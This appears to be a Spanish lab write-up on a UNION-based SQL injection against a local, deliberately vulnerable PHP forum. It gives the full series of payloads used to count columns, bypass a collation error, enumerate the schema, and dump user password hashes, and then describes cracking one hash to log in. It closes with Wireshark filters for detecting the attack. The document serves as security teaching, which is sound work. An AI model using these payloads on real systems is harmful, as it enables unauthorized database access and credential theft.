## Previo
Tiene que ser con un phpmyadmin antiguo.
Accedemos a phpmyadmin y creamos una base de datos que se llame forum. A continuación importamos forum.sql

## Saber el número de columnas de la tabla que afecta al formulario
Para que una consulta UNION funcione, se deben cumplir dos requisitos clave:
- Las consultas individuales deben devolver el mismo número de columnas.
- Los tipos de datos de cada columna deben ser compatibles entre las consultas individuales.

Cómo determinar del número de columnas requeridas en un ataque UNION de inyección SQL:
- El primer método consiste en inyectar una serie de cláusulas ORDER BY e incrementar el índice de columna especificado hasta que se produzca un error. Por ejemplo, vamos probando hasta que obtengamos un error, en nuestro caso:
  ```
  999' or '1'='1' UNION SELECT * from articulos order by 4 #
  ```

- El segundo método consiste en enviar una serie de cargas útiles de UNION SELECT que especifican un número diferente de valores nulos. Vamos probando:
  ```
  ' UNION SELECT NULL--
  ' UNION SELECT NULL,NULL--
  ' UNION SELECT NULL,NULL,NULL–
  ```
  La aplicación podría devolver este mensaje de error, o simplemente podría devolver un error genérico o ningún resultado. Cuando el número de valores nulos coincide con el número de columnas, la base de datos devuelve una fila adicional en el conjunto de resultados, que contiene valores nulos en cada columna.


## Mostrar los usuarios y contraseñas

### Datos de todas las bases de datos, tablas y columnas de MySQL
Partimos de la consulta del sql-injection-lab1 →  que nos da la información de todas las bases de datos, tablas y columnas de MySQL. **El objetivo es que tenemos que conseguir introducir esta consulta para que nos de la información completa.**

Consulta SQL →
```
select information_Schema.tables.table_schema, information_Schema.columns.table_name, information_Schema.columns.column_name FROM information_Schema.columns, information_Schema.tables WHERE information_Schema.tables.table_name = information_Schema.columns.table_name;#
```

Inyección →
```
999' UNION select null, concat(information_Schema.tables.table_schema,'-->',information_Schema.columns.table_name), information_Schema.columns.column_name FROM information_Schema.columns, information_Schema.tables WHERE information_Schema.tables.table_name = information_Schema.columns.table_name;#
```

## Averiguando el número de columnas de la tabla que usa el login
Es necesario saber el número de columnas que tiene la tabla de la que parte el formulario de login para poder hacer el ataque. Vamos probando metiendo null en la sentencia hasta que deje de dar el error de las diferentes número de columnas:

Inyección →
```
999' UNION select null  FROM information_Schema.columns, information_Schema.tables WHERE information_Schema.tables.table_name = information_Schema.columns.table_name; #
```

Vamos obteniendo errores 
```
Notice: Use of undefined constant forum - assumed 'forum' in C:\xampp\htdocs\foro\libraries\User.php on line 9
Fatal error: Uncaught PDOException: SQLSTATE[21000]: Cardinality violation: 1222 The used SELECT statements have a different number of columns in C:\xampp\htdocs\foro\libraries\Database.php:56 Stack trace: #0 C:\xampp\htdocs\foro\libraries\Database.php(56): PDOStatement->execute() #1 C:\xampp\htdocs\foro\libraries\Database.php(65): Database->execute() #2 C:\xampp\htdocs\foro\libraries\User.php(69): Database->single() #3 C:\xampp\htdocs\foro\login.php(11): User->login('999' UNION sele...', 'd41d8cd98f00b20...') #4 {main} thrown in C:\xampp\htdocs\foro\libraries\Database.php on line 56
```



Continuamos metiendo null hasta que pase a darnos otro tipo de error o de el resultado esperado, que conseguimos loguearnos:
Inyección →
```
999' UNION select null, null, null, null, null, null, null, null, null FROM information_Schema.columns, information_Schema.tables WHERE information_Schema.tables.table_name = information_Schema.columns.table_name; #
```



Número de columnas de la tabla que se usa en el formulario de login: 9 columnas.


## Primer intento de ataque
Ahora que sabemos el número de columnas que usa la tabla del formulario del login, vamos a hacer una consulta para que nos de las tablas de la BD. Seguimos trabajando con el formulario de login:

Inyección →
```
999' UNION select null, information_Schema.tables.table_schema, null, null, null, null, null, null, null FROM information_Schema.columns, information_Schema.tables WHERE information_Schema.tables.table_name = information_Schema.columns.table_name;#
```

Ahora vemos que hay un problema ya que la tabla que se usa en el login usa el collation utf16_bin y que la tabla a la que estamos intentando unir usa el collation utf8_general_cli.
```
Notice: Use of undefined constant forum - assumed 'forum' in C:\xampp\htdocs\foro\libraries\User.php on line 9

Fatal error: Uncaught PDOException: SQLSTATE[HY000]: General error: 1267 Illegal mix of collations (utf16_bin,IMPLICIT) and (utf8_general_ci,IMPLICIT) for operation 'UNION' in C:\xampp\htdocs\foro\libraries\Database.php:56 Stack trace: #0 C:\xampp\htdocs\foro\libraries\Database.php(56): PDOStatement->execute() #1 C:\xampp\htdocs\foro\libraries\Database.php(65): Database->execute() #2 C:\xampp\htdocs\foro\libraries\User.php(69): Database->single() #3 C:\xampp\htdocs\foro\login.php(11): User->login('999' UNION sele...', '5a105e8b9d40e13...') #4 {main} thrown in C:\xampp\htdocs\foro\libraries\Database.php on line 56
```



## Solución a la mezcla de collation
En el punto anterior hemos obtenido que la inyección da un error de mezcla de collation. Para solventar esto, hacemos un cast (conversión) con el collation de la columna que solicitamos → Le hacemos un cast a utf8_general_ci de la columna information_Schema.tables.table_schema:

Inyección →
```
999' UNION select null, information_Schema.tables.table_schema COLLATE utf8_general_ci, null, null, null, null, null, null, null FROM information_Schema.columns, information_Schema.tables WHERE information_Schema.tables.table_name = information_Schema.columns.table_name;#
```


Al poner esta consulta, vemos que ya no nos da error de la mezcla de collate. Hemos accedido a la página web superando el problema de mezcla de collation:


Hacemos logout y ahora montamos una consulta con GROUP_CONCAT para que nos de toda la información de la BD: 
Inyección →
```
999' UNION select null, GROUP_CONCAT(information_Schema.tables.table_schema, '-' ,information_Schema.columns.table_name) COLLATE utf8_general_ci, null, null, null, null, null, null, null FROM information_Schema.columns, information_Schema.tables WHERE information_Schema.tables.table_name = information_Schema.columns.table_name;#
```


Como no cabe todo el resultado de la consulta, también podemos hacer uso de las herramientas de desarrollador de chrome para verlo más resultados si queremos:


Ya hemos conseguido realizar un ataque en el que podemos usar como base nuestra consulta del primer punto para saber lo que queramos de la Base de Datos. Vemos que existe una tabla users que la usaremos para más adelante buscar los nombre de usuarios y sus contraseñas.


## Información sobre las columnas de la BD

Vamos a probar la base de consulta de inyección que tenemos para ver la información de las columnas de la BD:
Inyección →
```
999' UNION select null, GROUP_CONCAT(table_name,': ', column_name) COLLATE utf8_general_ci, null, null, null, null, null, null, null FROM information_Schema.columns;#
```


Ahora sabemos que la tabla users tiene 9 columnas que son:
- id
- name
- email
- avatar
- username
- password
- about
- last_activity
- join_date

## Ver todos los usuarios de la tabla users
Conociendo que la tabla que contiene los usuarios se llama users y que tiene 9 columnas, montamos una consulta para que nos de todos los usuario y sus contraseñas:

Consulta SQL →
```
SELECT * FROM users WHERE username= '999' UNION SELECT null, GROUP_CONCAT( name,': ',password,' —-- '), null, null, null, null, null, null, null  from users ORDER by name # lo que sea
```

Inyección →
```
999' UNION SELECT null, GROUP_CONCAT( name,': ',password,' — '), null, null, null, null, null, null, null  from users ORDER by name # lo que sea
```


Usando una web que muestra hashes en md5 (https://hashes.com/) obtenemos la password. Ahora probamos a entrar con el usuario test2 y la contraseña que nos devolvió la web 12121980:



## Análisis del tráfico con Wireshark
## Filtrar Solicitudes HTTP con Posibles Inyecciones SQL 
Aplicamos un filtro en wireshark para descubir el ataque de sql injection:
```
http.request.uri contains "SELECT" || http.request.uri contains "UNION" || http.request.uri contains "DROP" || http.request.uri contains "OR '1'='1'"
```

Sin embargo, este filtro no da ningun resultado ya que la consulta viaja dentro del file data del request.


## Filtrar por paquetes de datos HTTP que contienen la palabra "select"
El filtro de Wireshark http.file_data contains "select" se utiliza para capturar paquetes de datos HTTP que contienen la palabra "select" en el cuerpo del archivo (file data) de la petición HTTP. Este filtro puede ser útil para varias situaciones, incluyendo la detección de potenciales inyecciones SQL o el análisis de consultas de bases de datos enviadas a través de HTTP.
```
http.file_data contains "select" || http.file_data contains "UNION" || http.file_data contains "union" 

```



## Filtra por peticiones HTTP que usan el método POST:
Dado que el ataque involucra enviar información a través de un formulario web, lo más probable es que estos datos sean transmitidos mediante una petición HTTP POST con el contenido codificado en application/x-www-form-urlencoded.
```
http.request.method == "POST"
```



## Filtrar por Códigos de Estado HTTP Específicos
A menudo, una inyección SQL fallida resultará en códigos de estado de error HTTP, como 500 (Error Interno del Servidor). Puedes filtrar estos códigos de estado:
```
http.response.code == 500
```
Este filtro captura respuestas con el código de estado 500, lo que podría indicar un error en la ejecución de una consulta SQL, posiblemente debido a una inyección SQL.

## Filtering for Web Traffic
The expression http.request reveals URLs for HTTP requests, and tls.handshake.type eq 1 shows domain names used in HTTPS or SSL/TLS traffic.

For web traffic generated by Windows hosts, results from this filter include HTTP requests over UDP port 1900. This HTTP traffic is Simple Service Discovery Protocol (SSDP). SSDP is used to discover plug-and-play devices and is not associated with normal web traffic. We can exclude SSDP traffic in our results by modifying our filter expression to:
```
(http.request or tls.handshake.type eq 1) and !(ssdp)
```

